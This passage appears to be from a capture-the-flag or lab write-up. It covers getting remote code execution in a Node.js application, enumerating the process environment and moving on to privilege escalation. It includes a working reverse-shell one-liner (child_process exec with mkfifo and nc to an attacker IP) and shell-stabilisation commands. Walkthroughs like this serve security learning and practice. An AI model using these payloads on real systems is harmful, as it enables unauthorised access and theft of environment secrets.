 As seen, we have RCE, we can use more commands to test:

```
process.cwd() // Current working directory
process.version // Node.js version
process.versions // Node + dependency versions
process.platform // OS platform ('linux', 'win32', etc.)
process.arch // Architecture ('x64', etc.)
process.env // Environment variables object
process.env['PATH'] // Specific env var (e.g., PATH)
process.argv // Script arguments (if any)
process.uptime() // Time Node has been running
process.memoryUsage() // Memory info
```


Ok, the nice part about this is getting a reverse shell, so let's use:

```node
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 9001 >/tmp/f')
```

![Pasted image 20250612162333.png](../../IMAGES/Pasted%20image%2020250612162333.png)

Got our shell, let's begin privesc.



# PRIVILEGE ESCALATION
---


Ok, first step is to stabilize the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250612162428.png](../../IMAGES/Pasted%20image%2020250612162428.png)
Now, let's take a look around, we can use linpeas:
